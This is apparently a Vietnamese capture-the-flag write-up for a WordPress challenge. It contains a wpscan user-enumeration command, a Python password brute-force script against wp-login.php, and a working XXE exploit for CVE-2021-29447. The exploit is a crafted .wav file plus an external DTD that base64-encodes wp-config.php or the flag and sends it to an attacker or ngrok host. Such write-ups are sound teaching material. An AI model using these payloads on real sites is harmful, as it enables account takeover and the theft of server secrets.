




# KCSC BLOG

## Solution

Chall này liên quan đến WordPress, loay hoay trên web một lúc mình tìm thấy trang login và đông thời có hint weak password. Điều này cho thấy để đăng nhập được ta cần làm theo hướng brute force chứ không phải sqli. Trước tiên ta sẽ dùng wpscan tool để tìm các user .

Command : wpscan --url http://18.142.106.71/ --enumerate u



Ta có hai user đó là *khaidang* và *dsmile* và lại kết hợp với hint ` Hãy quan tâm đến DangKhai` nên user admin sẽ là *khaidang* công việc tiếp theo đó là bruteforce password của user này .

```
import requests

url = "http://18.142.106.71/wp-login.php"

words = open('rockyou.txt','r').read().split('\n')

for pwd in words:
	print(pwd)
	data = {'log':'khaidang','pwd':'{}'.format(pwd),'wp-submit':'Log+In','redirect_to':'http%3A%2F%2F18.142.106.71%2Fwp-admin%2F&testcookie=1'}

	res = requests.post(url, data)
	if "The password you entered for the username"  not in res.text and pwd != '':
		print('Password is ' + pwd)
		break
```



Sau khi đăng nhập vào trang admin, ta sẽ chú ý đến phần comment và tại đây có một vài comment được post lên và để ý có cả những comment xss tuy nhiên mình nghĩ nó mang tính lừa lọc cao . Mất một lúc không ra hướng mình quyết định tìm hiểu và biết web đang dùng version 5.6 (bản cũ) và tất nhiên rồi tiếp theo sẽ xem nó có đang dính CEV nào không . 

Trong quá trình dạo qua web trong phần media có thấy một file xxe.wav được tạo sẵn ở đó và kết quả google cũng cho thấy bản 5.6-5.7 đang dính CEV liên quan đến XXE .(https://wpscan.com/vulnerability/cbbe6c17-b24e-4be4-8937-c78472a138b5)

Theo báo cáo thì có thể thấy lỗ hổng này xuất phát từ việc phân tích cú pháp XML xảy ra vấn đề dẫn đến các cuộc tấn công XXE làm rò rỉ các tệp nhạy cảm bằng phương pháp gọi đến các thực thể bên ngoài do attacker kiểm soát.

```
<!DOCTYPE myDoc [ <!ENTITY myExternalEntity SYSTEM "http://evil.com/script" > ]>
<myDoc>
    <foo>&myExternalEntity;</foo>
<myDoc>
```

WordPress có thư viện phương tiện cho phép người dùng đã xác thực tải lên các tệp phương tiện sau đó có thể được sử dụng trong các bài đăng trên blog của họ. Để trích xuất thông tin meta từ các tệp phương tiện này, ví dụ: tên hoặc tiêu đề nghệ sĩ,... ,WordPress sử dụng thư viện *getID3* . Một số siêu dữ liệu này được phân tích cú pháp ở dạng XML. Tại đây, một lỗ hổng XXE có thể xảy ra .

Cụ thể trong trường hợp này bằng cách tải lên một tệp .wav , ta có thể tiến hành attack XXE.

POC:

```
payload.wav:

RIFFXXXXWAVEBBBBiXML<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://attacker-url.domain/xxe.dtd">
%sp;
%param1;
]>
<r>&exfil;</r>>

xxe.dtd:

<!ENTITY % data SYSTEM "php://filter/zlib.deflate/convert.base64-encode/resource=../wp-config.php">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://attacker-url.domain/?%data;'>"> 
```

Đầu tiên tôi sẽ dựng một server bằng ngrok chứa file xxe.dtd:

```
<!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=../flag">
<!ENTITY % param1 "<!ENTITY exfil SYSTEM 'https://2ff1645a2a30.ngrok.io/?%data;'>"> 
```

Tiếp theo là tải lên file payload.wav (file này mk chỉ edit phần web attacker từ file xxe.wav có sẵn trên trang media) , sau khi tải thành công sẽ có một request bao gồm content file cần đọc gửi đến server .



Decode base64 để lấy flag :



## Flag

KCSC{oh_CVE-2021-29447_______:)} 

## Document

https://blog.sonarsource.com/wordpress-xxe-security-vulnerability


